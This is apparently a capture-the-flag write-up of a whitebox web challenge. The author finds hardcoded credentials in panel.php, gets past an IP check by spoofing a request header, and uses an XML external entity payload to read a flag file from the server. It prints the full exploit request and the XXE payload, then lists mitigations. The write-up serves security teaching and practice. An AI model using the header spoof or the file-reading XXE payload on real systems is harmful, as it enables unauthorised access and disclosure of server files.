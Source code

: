 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they can be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**

![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**

 Since its a whitebox test,configuration files where provided in a zip file.
 
  
![c](https://github.com/user-attachments/assets/d87c1c3b-c666-4a45-86d9-9b3cccfd0ad1)



  *Panel.php looks like an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
**Lets open up the panel.php file**

  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
- We have admin username and password
  
- A whole ip address and what looks like a vpn server name....hmmm

**Lets take out the big guns now......Burpsuite!**

  --> Intercept request with proxy
  
  --> Insert credentials and spoofed IP in HTTP Header.
  
  --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats happening is that the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

**Classification:** XML External Entity (XXE) Injection

**Impact:** High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body 
 
> payload from PayloadsAllThings [View Payload](https://github.com/Mumbi-Sec/PayloadsAllThings/blob/b9e847decb60d436f632a33f48f68fabaa324900/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
 



![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)


 *Look at this server.....so..**responsive** lol*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

    POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
    Host: challenge.zedbounty.com

    X-VIVACELL-VPN: 41.18.611.104

    Content-Type: application/xml

    Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


### 4. Mitigation

- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned

- Bypassing directory access controls using HTTP Header requests.
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- Never trust user supplied headers to validate ip addresses!

### Thank you.....

## Credits and sources

https://zedbounty.com/

https://portswigger.net/web-security/xxe
